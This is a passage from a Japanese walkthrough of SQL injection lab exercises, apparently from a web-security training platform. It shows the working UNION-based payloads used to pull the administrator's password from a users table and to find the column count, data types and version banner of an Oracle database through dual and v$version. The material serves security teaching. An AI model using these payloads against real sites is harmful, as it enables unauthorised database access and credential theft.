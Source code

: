 ```python
Tech gifts' union select username, password from users where username='administrator' -- --
```

コレにより、administratorのpasswordを取得することができます。

## ****SQL injection attack, querying the database type and version on Oracle****

---

### Goal

Oracle DBのバージョンを抜けば良さそうです。

### Analyze

SQL injectionの存在は、**`SQL injection UNION attack, finding a column containing text`で見たのと同じような箇所に同じような方式で見つけることができます。**

Oracle DBは何かを参照する際、tableが必要になることに注意しなければなりません。

このときに使えるのが `dual` テーブルです。

下記ペイロードのみ200 OKなので返却されるカラム数は2であることがわかります

```python
Pets' union select null, null from dual-- --
```

### Exploit

いつもどおりdata型の判別だけしておきましょう。

下記ペイロードは200 OKのためすべてchar型であることがわかります。

```python
Pets' union select 'a', 'a' from dual-- --
```

では、Oracle DBのバージョン情報を除くための方法を調査しましょう。

```python
SELECT * FROM v$version;
```

コレで取得できるようですが、`*` でとってくることはできなさそうです。

ので、 `v$version` を覗いてみましょう。

https://docs.oracle.com/cd/E96517_01/refrn/V-VERSION.html#GUID-6CD1B31F-C0EF-45F9-9E7A-51E48D91A6DD

優しいね。日本語の資料がある。

`v$version`の `BANNER`のみを取れば良さそうです。

```sql
Pets' union select BANNER, null from v$version-- --
```
